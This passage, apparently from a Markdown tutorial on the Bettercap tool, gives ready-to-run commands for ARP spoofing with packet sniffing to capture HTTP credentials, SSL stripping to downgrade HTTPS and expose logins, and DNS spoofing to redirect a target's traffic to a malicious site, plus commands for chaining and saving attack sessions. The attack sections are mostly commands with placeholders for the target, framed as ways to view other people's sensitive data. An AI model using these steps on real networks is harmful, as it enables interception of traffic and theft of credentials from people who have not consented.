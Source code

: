 - **Steps**:
  1. Start ARP spoofing:
     ```bash
     set arp.spoof.targets <target_ip>
     arp.spoof on
     ```
  2. Start network sniffing:
     ```bash
     net.sniff on
     ```
  3. Capture and analyze HTTP credentials passed through unencrypted HTTP traffic.

#### **2. HTTPS Downgrade Attack**
This attack forces HTTPS traffic (encrypted) to downgrade to HTTP (unencrypted), allowing you to view sensitive data like login credentials.

- **Steps**:
  1. Enable ARP spoofing as usual.
  2. Turn on SSL stripping:
     ```bash
     set https.proxy.sslstrip true
     https.proxy on
     ```

#### **3. DNS Spoofing to Redirect Traffic**
DNS spoofing can redirect the target’s traffic to a malicious website.

- **Steps**:
  1. Start ARP spoofing:
     ```bash
     set arp.spoof.targets <target_ip>
     arp.spoof on
     ```
  2. Enable DNS spoofing:
     ```bash
     set dns.spoof.domains <targeted_domain>
     dns.spoof on
     ```

---

### **Advanced Features**

1. **Custom Scripts**:
   Bettercap supports custom scripts that allow you to automate or chain multiple tasks together. You can write and run a script file using:
   ```bash
   sudo bettercap -eval "events.stream off; net.probe on; sleep 5; arp.spoof on"
   ```

2. **Session Saving**:
   You can save your current Bettercap session and restore it later:
   ```bash
   session.save <filename>
   session.restore <filename>
   ```

---